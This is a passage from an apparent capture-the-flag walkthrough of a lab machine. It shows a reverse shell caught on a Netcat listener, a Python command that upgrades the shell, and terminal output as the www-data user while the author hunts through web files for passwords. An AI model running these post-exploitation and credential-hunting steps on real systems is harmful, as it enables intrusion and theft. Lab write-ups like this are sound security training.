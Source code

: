 *Once this command is run our terminal will appear stuck, however our Netcat listener has caught a connection. The received shell is not fully interactive, however we can make it a bit better by using Python3.*

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Here is the output from my Kali machine:

```
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.95.185:36604.
Linux included 4.15.0-151-generic #157-Ubuntu SMP Fri Jul 9 23:07:57 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 14:41:35 up 50 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@included:/$ ls
ls
bin    dev   initrd.img      lib64       mnt   root  snap  tmp  vmlinuz
boot   etc   initrd.img.old  lost+found  opt   run   srv   usr  vmlinuz.old
cdrom  home  lib             media       proc  sbin  sys   var
www-data@included:/$
```

*With access to the system as the ```www-data``` user we do not have enough privileges to read the user flag, therefore we need to find a way to move laterally to user ```mike``` who was also found on the ```passwd``` file. A good place to start our enumeration would be the web server directory as it often contains configuration files that might include passwords.*

*The web-related files are usually stored in the ```/var/www/html``` folder, so that's where we are going start.*

Here is the example from my Kali machine:

```
www-data@included:/var/www/html$ ls -la
ls -la
total 88
drwxr-xr-x 4 root     root      4096 Oct 13  2021 .
drwxr-xr-x 3 root     root      4096 Apr 23  2021 ..
-rw-r--r-- 1 www-data www-data   212 Apr 23  2021 .htaccess
-rw-r--r-- 1 www-data www-data    17 Apr 23  2021 .htpasswd
-rw-r--r-- 1 www-data www-data 13828 Apr 29  2014 default.css
drwxr-xr-x 2 www-data www-data  4096 Apr 23  2021 fonts
-rw-r--r-- 1 www-data www-data 20448 Apr 29  2014 fonts.css
-rw-r--r-- 1 www-data www-data  3704 Oct 13  2021 home.php
drwxr-xr-x 2 www-data www-data  4096 Apr 23  2021 images
-rw-r--r-- 1 www-data www-data   145 Oct 13  2021 index.php
-rw-r--r-- 1 www-data www-data 17187 Apr 29  2014 license.txt
www-data@included:/var/www/html$
```
